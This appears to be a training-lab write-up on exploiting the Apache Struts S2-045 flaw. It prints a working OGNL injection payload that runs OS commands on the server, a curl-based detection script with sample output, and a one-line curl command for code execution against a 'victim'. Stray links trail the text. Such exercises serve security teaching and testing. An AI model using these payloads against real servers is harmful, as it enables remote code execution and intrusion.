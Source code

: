 
/usr/local/bin/score UUID

You can access this exercise using the following URL: http://ptl-8c1ff287-f36d3391.libcurl.so/. 

The payload

A lot of exploits are already available, most of them are just wrappers around the following payload:

``` sh
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

```

Detection

We can easily tweak this payload to allow us to detect the vulnerability without trying to run command.

``` sh

%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}

```

``` sh
$ cat detect.sh 
```

``` sh
curl --header "Content-Type: %{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}" $1 

```

``` sh
$ sh detect.sh [SERVER]
```
``` html
test

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>

```

Gaining code execution
Gaining code execution with this payload is as simple as running a curl command with the right argument:

``` sh
$ curl --header "Content-Type: [PAYLOAD]" http://[SERVER]/
```

Where:

[PAYLOAD] is your payload.
[SERVER] is the victim.

Conclusion
This exercise explained how to gain code execution when a Struts application is vulnerable to s2-045. When you are coming across a Struts application, it's essential that you test for this issue.



https://www.google.nl/search?q=download+file+from+vps+to+pc&rlz=1C1CHFX_enNL754NL754&oq=download+file+from+vps&aqs=chrome.1.69i57j0l5.6699j0j4&sourceid=chrome&ie=UTF-8

https://securityonline.info/exploiting-apache-struts-s2-045-cve-2017-5638-vulnerability-with-metasploit/ 